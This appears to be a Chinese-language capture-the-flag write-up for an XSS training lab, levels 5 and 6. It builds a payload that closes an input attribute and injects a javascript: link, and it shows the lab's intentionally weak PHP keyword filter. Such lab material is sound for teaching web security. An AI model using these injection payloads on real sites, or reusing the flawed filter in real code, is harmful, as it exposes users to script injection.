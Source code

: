 ##### HTML 链接语法

链接的HTML 代码很简单。它类似这样：

```html
<a href="url">链接文本</a>
```

##### 超链接执行js脚本

方式一：让js函数返回false,在onclick中也返回false;

```html
<a href="http://www.itcast.cn" onclick="return showTime();">显示当前时间</a>
```
方式二：将href指定成一段脚本
```html
<a href="javascript:showTime();">点击显示时间</a>
```

因此使用HTML超链接的方式，使得前端代码出现一个能执行js脚本语句的超链接，点击链接后弹窗

#### 构造XSS语句

既要闭合input标签内部，又要使得链接标签写入前端写法如下

原始input标签

```html
<input name=keyword  value="3333 ">
```

闭合inoput并构造添加一个超链接标签(注意前后双引号闭合)

```html
<input name=keyword  value="3333"><a href="javascript:alert(1);">链接文本</a><"">
```

则需要提交到搜索框中的部分为

```html
3333"><a href="javascript:alert(1);">链接文本</a><"
```

提交后XSS执行成功：

![](https://img.yatjay.top/md/202203052213310.png)

### Level-6

对照第5关，将上面的XSS语句提交到第6关的搜索框中，发现无法弹窗，查看页面源代码，发现超链接标签中的href被替换

![](https://img.yatjay.top/md/202203060944669.png)

![](https://img.yatjay.top/md/202203060945083.png)

查看后台PHP代码，可见`<script`、`on`、`src`、`href`关键字都会被过滤

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
```